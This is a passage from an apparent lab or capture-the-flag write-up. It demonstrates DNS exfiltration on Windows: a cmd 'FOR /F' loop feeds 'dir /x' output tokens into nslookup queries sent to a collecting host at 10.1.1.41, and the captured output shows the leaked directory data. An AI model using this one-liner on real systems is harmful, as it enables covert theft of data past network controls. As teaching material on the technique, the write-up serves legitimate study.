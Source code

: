 The reason it fails is because you can’t have two `.` in a row in a valid domain name. I’ll fix that by including a single character in before each token. That way, an empty token will still produce that character, and I can just remove it on the receiving end.

In the real thing, I’ll use the same character for each token, but for demonstration, I’ll show this one with each token having a different character. I’ll show the dir, and then the output from running the loop over it:

```

C:\Users\0xdf\test>dir /x
 Volume in drive C has no label.
 Volume Serial Number is F06E-7663

 Directory of C:\Users\0xdf\test

02/25/2019  07:04 AM    <DIR>                       .
02/25/2019  07:04 AM    <DIR>                       ..
               0 File(s)              0 bytes
               2 Dir(s)   4,913,123,328 bytes free

C:\Users\0xdf\test>@echo off & (FOR /F "tokens=1-26" %a IN ('dir /x .') DO ( nsl
ookup "A%a.B%b.C%c.D%d.E%e.F%f.G%g.H%h.I%i.J%j.K%k.L%l.M%m.N%n.O%o.P%p.Q%q.R%r.S
%s.T%t.U%u.V%v.W%w.X%x.Y%y.Z%z" 10.1.1.41)) & @echo on
Server:  UnKnown
Address:  10.1.1.41
*** UnKnown can't find AVolume.Bin.Cdrive.DC.Ehas.Fno.Glabel..H.I.J.K.L.M.N.O.P.
Q.R.S.T.U.V.W.X.Y.Z: Unspecified error
Server:  UnKnown
Address:  10.1.1.41
*** UnKnown can't find AVolume.BSerial.CNumber.Dis.EF06E-7663.F.G.H.I.J.K.L.M.N.
O.P.Q.R.S.T.U.V.W.X.Y.Z: No response from server
Server:  UnKnown
Address:  10.1.1.41

DNS request timed out.
    timeout was 2 seconds.
*** UnKnown can't find ADirectory.Bof.CC:\Users\0xdf\test.D.E.F.G.H.I.J.K.L.M.N.
O.P.Q.R.S.T.U.V.W.X.Y.Z: No response from server
Server:  UnKnown
Address:  10.1.1.41
*** UnKnown can't find A02/25/2019.B07:04.CAM.D<DIR>.E..F.G.H.I.J.K.L.M.N.O.P.Q.
R.S.T.U.V.W.X.Y.Z: Unspecified error
Server:  UnKnown
Address:  10.1.1.41
*** UnKnown can't find A02/25/2019.B07:04.CAM.D<DIR>.E...F.G.H.I.J.K.L.M.N.O.P.Q
.R.S.T.U.V.W.X.Y.Z: Unspecified error
DNS request timed out.
    timeout was 2 seconds.
Server:  UnKnown
Address:  10.1.1.41
*** UnKnown can't find A0.BFile(s).C0.Dbytes.E.F.G.H.I.J.K.L.M.N.O.P.Q.R.S.T.U.V
.W.X.Y.Z: No response from server
DNS request timed out.
    timeout was 2 seconds.
Server:  UnKnown
Address:  10.1.1.41
*** UnKnown can't find A2.BDir(s).C4,913,123,328.Dbytes.Efree.F.G.H.I.J.K.L.M.N.
O.P.Q.R.S.T.U.V.W.X.Y.Z: No response from server

```

